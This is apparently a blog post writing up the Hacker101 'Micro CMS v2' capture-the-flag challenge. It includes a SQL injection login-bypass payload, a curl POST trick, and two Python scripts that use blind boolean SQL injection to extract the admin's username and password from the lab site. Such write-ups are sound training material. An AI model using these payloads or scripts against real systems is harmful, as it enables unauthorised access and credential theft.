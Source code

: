 ```yaml
---
layout: post
title:  "Micro CMS v2 (Hacker101 CTF Writeup)"
date:   2020-08-14 8:00:00 +0100
categories: writeup Hacker101 
---
```

# *Introduction*
This CTF Challenge is part of Hacker101's Training Platform. The Micro CMS v2 Challenge is a Web security challenge in where we are put in front of a site and we have to find 3 flags. This is how it looks by visiting it:

>>![ls](/assets/MicroCMS.png)

Very basic right? That said, let's get started!

# *Flag 1*

>> Hint: Regular users can only see public pages

As the Hint says, we probably need to get admin access. By Navigating to `Create a new Page` we are welcomed with a login form:

![LoginForm](/assets/LogInForm.png)

Default Credentials like admin:admin or admin:password won't work so let's try [SQLi](https://portswigger.net/web-security/sql-injection). By just inserting a single quotation mark `'` in the username field and clicking `Log In` We get the following error:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Awsome! From here we can see the query that is executed and it's something like `SELECT password FROM admins WHERE username='INPUT'` Where the `INPUT` part is whatever we insert in the username field. Probably the query is used to get a Password for a specific user and then comparing it to whatever we insert in the password field. Let's try to craft a query that will return `hello` as password no matter what we have in the username field. After some trials I injected this: `user' UNION SELECT 'hello'#`. The final query will look something like:
 `SELECT password FROM admins WHERE username='user' UNION SELECT 'hello'#'`. By using the above injection in the username field and the word `hello` in the password...

![Logged](/assets/LoggedInCMS.png)

Nice! By navigating back we get a new `Private Page` that will expose the first flag.

# *Flag 2*

>> Hint: What actions could you perform as a regular user on the last level, which you can't now?

Honestly, I didn't solve this one. I found that this one was a little guessy. However the solution was hidden in the second hint:

>> Hint: Just because request fails with one method doesn't mean it will fail with a different method

So the point here is to change the request method from a simple `GET` to a `POST`. I simply used [curl](https://curl.haxx.se/) to archieve this. The command is `curl -X POST endpoint`. I tested different endpoints on the target and at the end I got the flag by POSTing at `http://34.94.3.143/cd8c2e4456/page/edit/1`.

![Curl](/assets/CURL_posting.png)


# *Flag 3*

>> Hint: Credentials are secret, flags are secret. Coincidence?

By reading the hint I got that we have to get the admin's username and password and not just logging in using a bypass like for Flag 1. I thought a bit about this, and finally I came up with a possible approach. Basically when inserting the right password in the login form we obviously log in, otherwise we get an `Wrong Password` Response. So we have a way to ask boolean questions(with answer yes or no) to the database. This "Questions" will be of the form `Does the username start with 'a'?`, `Does the password start with 'ch'?`. By running muliple queries we can get the complete username and the complete password. So how do we do this? We know from the error log that a table `admins` exist. I used the following query : `' union select case when (select substring(username,1,1) ='a') then 'right' else 'wrong' end from admins#`. Let's break this down a bit:
```
' # The first question mark breaks the original query
union select # Union the original query result(that will be empty) with what comes next
case # start a conditional SQL query
when (select substring(username,1,1)='a') # check if the first character of the username field is 'a'
then 'right'  #if it is then return the word 'right'
else 'wrong' # else return the word 'wrong'
end # end the conditional SQL query
from admins # #The username field is in the admins table end the '#' comments out the rest of the original query
```
So remember how we set the password to `hello` while solving Flag 1? Here we are basically doing the same, setting the password to `right` or `wrong` based on the result of the query `select substring(username,1,1)='a'`. Obviously we have to run multiple queries and everytime increment the checked substring size. So let's automate this! I Wrote the following python code.
For the username:
```python
import requests
import string
url="http://34.94.3.143/9e734fe631/login"
username=''
letters=string.ascii_lowercase+string.ascii_uppercase
c=1

while True:
    for i in letters:
        testing=username+i
        data={
            'username':"' union select case when (select substring(username,1,"+str(c)+") ='"+testing+"') then 'right' else 'wrong' end from admins#",
            'password':'right'


        }
        res = requests.post(url,data)
        #print(data)
        #print(res.text)
        if not "Invalid password" in res.text:
            username=username+i
            c+=1
            print(username)
            break
```

By running the above code, It takes about 30 seconds to split out the entire username. Note that the program won't stop automatically so we have to escape with `CTRL+C`:
![Getting Username](/assets/GettingUsername_CMS.png)

For the password the code looks very similar:
```python
import requests
import string
url="http://34.94.3.143/9e734fe631/login"
password=''
letters=string.ascii_lowercase+string.ascii_uppercase
c=1

while True:
    for i in letters:
        testing=password+i
        data={
            'username':"' union select case when (select substring(password,1,"+str(c)+") ='"+testing+"' where username='charity') then 'right' else 'wrong' end from admins#",
            'password':'right'


        }
        res = requests.post(url,data)
        #print(data)
        #print(res.text)
        if not "Invalid password" in res.text:
            password=password+i
            c+=1
            print(password)
            break
```

Note that here I added `where username='charity'` to the query to be sure that we get the password of the previously found user. However this isn't strictly neccessary because it seems that the admin user is only one. At the end the credentials where `username:charity` and `password:keira`.
By Logging in with the above credentials we immidiatly get the flag on screen! 
I think this last Flag was the hardest but I had a great time when I finally solved it. Stay tuned for more writeups!









